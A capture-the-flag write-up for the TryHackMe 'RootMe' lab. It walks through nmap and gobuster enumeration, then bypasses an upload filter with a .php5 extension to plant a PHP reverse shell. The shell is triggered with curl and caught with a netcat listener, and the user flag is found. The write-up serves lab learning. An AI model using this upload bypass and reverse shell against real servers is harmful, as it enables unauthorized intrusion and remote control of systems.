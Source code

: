 ```yaml
---
date: 2024-03-01
difficulty: easy
draft: "false"
os: linux
parent: "[[tryhackme-index|TryHackMe Index]]"
skills: nmap, gobuster, gtfobins, suid, webshell
tags: [tryhackme, writeup]
title: RootMe Write-Up
---
```


# RootMe Write-Up

![Rootme Overview](./overview.png)

A ctf for beginners, can you root me?

<!-- truncate -->

## Enumeration

### nmap

nmap finds two open TCP ports, SSH (22), HTTP (80):

- `-sC` - Scan using the default nmap scripts.
- `-sV` - Pull version information of open ports.
- `-T4` - How fast the scan will be, in this case is aggressive.
- `-v` - Verbose output.
- `-oN scans/nmap.txt` - Save output to a file.

```
$ nmap -sV -T4 -F -v 10.10.176.53 -oN scans/nmap.txt
Nmap scan report for 10.10.176.53
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
```

The nmap scan result above will answer the first three questions:

- How many ports are open? **2**
- What version of Apache is running? **2.4.29**
- What service is running on port 22? **SSH**

### Directory Fuzzing

Run `gobuster` to look for hidden directories and files on the web server:

- `dir` - To use directory/file brute-forcing mode.
- `-u` - Is the flag to tell gobuster that we are scanning a URL.
- `-w` - Is the flag to set the list of possible directory and file names.
- `-o` - Is the flag to save the output in a file.

```
$ gobuster dir -u http://10.10.132.185/ -w ~/Desktop/SecLists/Discovery/Web-Content/common.txt -o scans/gobuster.txt
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.132.185/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.132.185/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.132.185/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.132.185/uploads/]
```

The gobuster scan result above will answer the next question:

- What is the hidden directory? **/panel/**

## Visit the Hidden Directory

From the web browser type `http://10.10.132.185/panel/`.

![Upload Form](./images/upload-form.png)

Looks like we can use this to upload a **web shell** and get a reverse shell. Download the php reverse shell script from [GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to change the values in the script with your own IP address and a port of your choice to get a reverse shell:

```
$ip = '10.9.211.69'; // Your IP
$port = 10000;       // Port of your choice
```

Trying to upload the **php-reverse-shell.php** file I get the following error.

![Upload Failed](./images/upload-failed.png)

I tried other extensions such as **jpg** and it uploaded successfully. I changed from **PHP** to a **php5** extension and that uploaded successfully too.

![Uploads](./images/uploads.png)

## Foothold

Start a **netcat** listener from your machine with the specified port in the **php-reverse-shell.php** file:

```
$ nc -nvlp 10000
```

In another terminal run the **php-reverse-shell.php** script by using **curl**:

```
$ curl http://10.10.132.185/uploads/php-reverse-shell.php5
```

Go back to check on your listener if you have a establish connection:

```
$ nc -nvlp 10000
Connection from 10.10.132.185:34698
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:35:29 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Search for the `user.txt` using `find`:

- `/` - Start the search from the root directory.
- `-type f` - Find to look exclusively for files.
- `-name user.txt` - Search for a file with the name _“user.txt”_.
- `2>/dev/null` - The stdout messages will go to a black hole.

```
$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
THM{y0u_************
```

Retrieve the content of `user.txt` file:

```
$ cat /var/www/user.txt
```

The codeblock above answers the question:

- What is user.txt? __THM\{y0u\_e*\*\*\*\*\*\*\*\*\*\*\*__

And the machine is pwned ;)

## References

- ReddyyZ. (2020, September 09). <span class="reference-title">RootMe</span>. *THM Challenges*. [https://tryhackme.com/r/room/rrootme](https://tryhackme.com/r/room/rrootme)
